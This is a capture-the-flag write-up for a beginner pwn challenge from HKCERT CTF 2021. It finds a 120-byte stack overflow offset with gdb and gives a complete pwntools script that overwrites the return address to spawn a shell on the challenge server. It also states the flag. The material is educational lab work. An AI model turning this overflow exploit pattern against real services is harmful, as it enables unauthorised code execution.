 ## To Modify the Past (pwn 50 pts)  
### Challenge:  
```
You may want to change something from the past, decide your future.  
This challenge contains a buffer overflow vulnerability that allows attacker to write out-of-bound, overwriting the return address on the stack.  
In order to get the flag, simply overwrite the return address with the address of get_shell function.  
Find out the number of bytes input before reaching the return address, i.e. input 1234 'A's and next 8 bytes input will overwrite the return address.  
How to find the offset: https://youtu.be/Ag0OcqbVggc?t=3408  
Find out the address of get_shell function, e.g. 0x400123  
How to find the address of a function: https://youtu.be/Ag0OcqbVggc?t=3651  
Write an exploitation script to send the payload (attack input) to the server, usually this can be done by Python and a python module pwntools, e.g. sendline(b'A'*1234+p64(0x400123))  
How to use pwntools to interact with the challenge: https://youtu.be/Ag0OcqbVggc?t=2356  
Find the flag file in the server and then cat the flag!!  
https://youtu.be/Ag0OcqbVggc?t=3824  
```
### Attachments
- [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)  

### Solution:  
Typical Return-to-function question    
1. Find get_shell address by gdb or objdump
```
objdump -M intel -D chall | grep get_shell
0000000000401182 <get_shell>:
```
2. Using GDB, find the offload as 120    
```
gdb-peda$ pattern create 130
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAk'
gdb-peda$ x/x $rsp
0x7ffffffee218: 0x414f41413941416a
gdb-peda$ x/s $rsp
0x7ffffffee218: "jAA9AAOAAk"
gdb-peda$ pattern offset jAA9AAOAAk
jAA9AAOAAk found at offset: 120
```
3. Send 120 "A"s + address of "get_shell" + send "Y" to return to rsp="get_shell"
4. `python3 exp.py` and get flag

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chalp.hkcert21.pwnable.hk --port 28028 ./chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'chalp.hkcert21.pwnable.hk'
port = int(args.PORT or 28028)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = b"A"*120
payload += p64(0x0401182)

io.sendline(payload)
io.sendline("Y")

io.interactive()
```
  
  
Flag: `hkcert21{be_c4r3_WIth_7he_5iZe}`  
  
